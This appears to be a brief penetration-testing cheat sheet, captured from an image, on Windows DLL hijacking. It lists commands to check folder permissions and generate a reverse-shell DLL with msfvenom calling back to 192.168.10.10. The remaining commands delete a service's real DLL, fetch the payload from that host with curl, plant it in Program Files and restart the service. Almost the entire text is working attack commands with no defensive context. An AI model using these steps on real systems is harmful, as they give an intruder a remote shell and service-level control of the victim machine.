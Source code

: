 # DLL Hijacking

• Permission check and service stop / start check

• Msfvenom create shell and upload ( curl, iwr, certutil)

    • icacls "C:\Program Files"

    • msfvenom -p windows/shell_reverse_tcp lhost=192.168.10.10 lport=443 -f dll -o rev.dll

    • del "C:\program files\noman\noman.dll"

    • curl 192.168.10.10/rev.dll -o noman.dll

    • cp noman.dll "C:\program files\noman\"

    • net start noman
